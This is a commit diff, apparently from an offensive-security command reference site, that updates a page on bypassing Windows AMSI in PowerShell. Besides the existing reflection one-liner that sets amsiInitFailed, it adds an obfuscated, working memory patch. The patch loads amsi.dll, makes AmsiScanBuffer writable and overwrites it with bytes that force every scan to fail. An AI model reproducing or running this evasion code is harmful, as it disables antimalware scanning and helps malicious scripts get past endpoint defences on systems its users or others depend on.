

Before and after one commit to arttoolkit/arttoolkit.github.io, a Jekyll site: the page built from _wadcoms/AMSI-Bypass-amsiInitFailed.md, in a window 1280 px wide, cut to the strip 187-1270 px from the top of the page. Shown: the top 1059 px of the strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Amsi bypass oneliner additional memory patch

````diff
--- a/_wadcoms/AMSI-Bypass-amsiInitFailed.md
+++ b/_wadcoms/AMSI-Bypass-amsiInitFailed.md
@@ -1,6 +1,6 @@
 ---
 description: |
-  One-liner to bypass the AMSI in a Powershell. Manipulating a result variable set by AmsiInitialize can also lead to another AMSI bypass through the amsiInitFailed field.
+  One-liner to bypass the AMSI in a Powershell. Manipulating a result variable set by AmsiInitialize can also lead to another AMSI bypass through the amsiInitFailed field. The additional code is Rasta Mouse's memory patch to bypass AMSI, run the one-liner and the additional code to disable AMSI in powershell.
 
   Command Reference:
   ```
@@ -15,6 +15,36 @@ description: |
 command: |
   $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*nitFailed") {$f=$e}};$f.setValue($null,$true)
 
+code: |
+  #Rasta-mouses Amsi-Scan-Buffer patch \n
+  $kizax = @"
+  using System;
+  using System.Runtime.InteropServices;
+  public class kizax {
+      [DllImport("kernel32")]
+      public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
+      [DllImport("kernel32")]
+      public static extern IntPtr LoadLibrary(string name);
+      [DllImport("kernel32")]
+      public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr yjnqcb, uint flNewProtect, out uint lpflOldProtect);
+  }
+  "@
+
+  Add-Type $kizax
+
+  $rykogwu = [kizax]::LoadLibrary("$(('àm'+'sî'+'.d'+'ll').noRMaLiZe([CHAr]([BYte]0x46)+[ChAr]([BYTE]0x6f)+[chAR]([BYTe]0x72)+[Char](109*8/8)+[chaR](68*31/31)) -replace [cHaR](92+76-76)+[cHaR]([byTE]0x70)+[cHar](107+16)+[chAr]([BYtE]0x4d)+[char]([BytE]0x6e)+[cHAr]([byTe]0x7d))")
+  $iyslea = [kizax]::GetProcAddress($rykogwu, "$(('ÃmsîScân'+'Buffer').normaliZe([ChAr]([bYTe]0x46)+[CHaR]([byte]0x6f)+[chAR]([BYTE]0x72)+[cHar]([byte]0x6d)+[chaR]([byTe]0x44)) -replace [char]([bYTe]0x5c)+[char](112*56/56)+[CHAR](123)+[CHAr](75+2)+[char](94+16)+[ChAR]([ByTE]0x7d))")
+  $p = 0
+  [kizax]::VirtualProtect($iyslea, [uint32]5, 0x40, [ref]$p)
+  $aapt = "0xB8"
+  $qkwf = "0x57"
+  $snxi = "0x00"
+  $wnan = "0x07"
+  $nchj = "0x80"
+  $yywa = "0xC3"
+  $estof = [Byte[]] ($aapt,$qkwf,$snxi,$wnan,+$nchj,+$yywa)
+  [System.Runtime.InteropServices.Marshal]::Copy($estof, 0, $iyslea, 6)
+
 items:
   - Shell
 services:
````
Also changed, not shown: _wadcoms/AMSI-Bypass-amsiContext.md (+32 -1 lines).
